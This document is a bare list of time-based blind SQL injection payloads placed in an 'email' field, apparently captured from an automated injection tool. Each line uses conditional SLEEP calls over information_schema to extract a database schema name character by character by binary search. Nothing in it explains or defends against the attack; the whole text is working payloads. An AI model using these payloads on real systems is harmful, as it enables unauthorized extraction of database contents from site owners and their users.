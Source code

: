 {email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=98,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>98,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=99,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>100,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )=102,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1 )>102,SLEEP(0.122010510204),SLEEP(0)) -- -}